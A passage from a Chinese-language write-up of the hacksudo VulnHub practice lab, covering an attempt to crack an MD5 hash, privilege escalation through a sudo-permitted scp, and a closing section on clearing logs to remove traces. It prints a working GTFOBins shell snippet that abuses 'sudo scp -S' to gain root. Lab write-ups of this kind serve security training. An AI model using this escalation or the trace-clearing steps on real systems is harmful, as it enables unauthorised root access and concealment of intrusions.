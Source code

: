 

发现这个加密，尝试解密`bb81133d9e5c204f15a466d357f3b519`，cmd5解出了，但是要钱啊

![](D:\stu\vulnhub\hacksudo靶场\pic-1\42.jpg)



## 提取root

看网上的`wp`，竟然使用`sudo -l`可以不用输入密码了，直接进行

![](D:\stu\vulnhub\hacksudo靶场\pic-1\43.jpg)



发现可以使用`scp`，那么查询`sudo`时的用法，网址`https://gtfobins.github.io/gtfobins/scp/#sudo`

```shell
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```

![](D:\stu\vulnhub\hacksudo靶场\pic-1\44.jpg)

直接复制命令执行即可

![](D:\stu\vulnhub\hacksudo靶场\pic-1\45.jpg)



查看`/root`目录

![](D:\stu\vulnhub\hacksudo靶场\pic-1\46.jpg)





# 清除痕迹



## 清除日志

![](D:\stu\vulnhub\hacksudo靶场\pic-1\47.jpg)

以`vishal`登录，把之前修改的内容去掉

![](D:\stu\vulnhub\hacksudo靶场\pic-1\48.jpg)



# 总结
